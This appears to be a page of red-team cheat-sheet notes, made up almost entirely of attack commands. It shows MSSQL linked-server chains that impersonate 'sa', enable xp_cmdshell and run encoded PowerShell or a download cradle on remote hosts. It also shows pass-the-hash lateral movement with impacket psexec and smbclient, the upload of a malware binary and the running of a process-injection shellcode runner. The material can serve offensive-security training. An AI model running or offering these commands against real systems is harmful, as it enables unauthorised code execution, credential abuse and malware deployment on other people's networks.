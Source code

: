 ```ad-example
EXECUTE AS LOGIN = 'sa';
EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT TARGET') AT TARGET_2
EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT TARGET') AT TARGET_2
EXEC ('EXEC (''xp_cmdshell ''''<your cmd here>'''''') AT TARGET') AT TARGET_2
EXEC ('EXEC (''xp_cmdshell ''''powershell -enc XXXXX'''''') AT TARGET') AT TARGET_2
~~~

Enable xp_cmdshell by executing query on remote machine, targeting your machine; impersonating 'sa'. Triple jump.

~~~sql
EXEC ('EXEC (''EXEC ('''' sp_configure ''''''''show advanced options'''''''', 1; reconfigure; '''') AT TARGET '') AT TARGET_2') AT TARGET
EXEC ('EXEC (''EXEC ('''' sp_configure ''''''''xp_cmdshell'''''''', 1; reconfigure; '''') AT TARGET '') AT TARGET_2') AT TARGET
EXEC ('EXEC (''EXEC ('''' xp_cmdshell ''''''''powershell DOWNLOADCRADLE'''''''' '''') AT TARGET '') AT TARGET_2') AT TARGET
~~~
```

*Screenshots*

___

___

~~~ad-example
title:PSExec + SMBClient Lateral Movement 

*New PSExec Session + SMBClient Session*

```bash
proxychains impacket-psexec USER@TARGET -hashes :NTLM
```

```bash
proxychains impacket-smbclient USER@TARGET -hashes :NTLM
```

*Put Malware Using SMBClient*

```bash
use c$
cd /windows/tasks
put NR.exe
```

> Run the shellcode runner using the psexec session (EntryPoint Stomping Process Injection)

```bash
use c$
C:\windows\tasks\NR.exe -epi
```
~~~
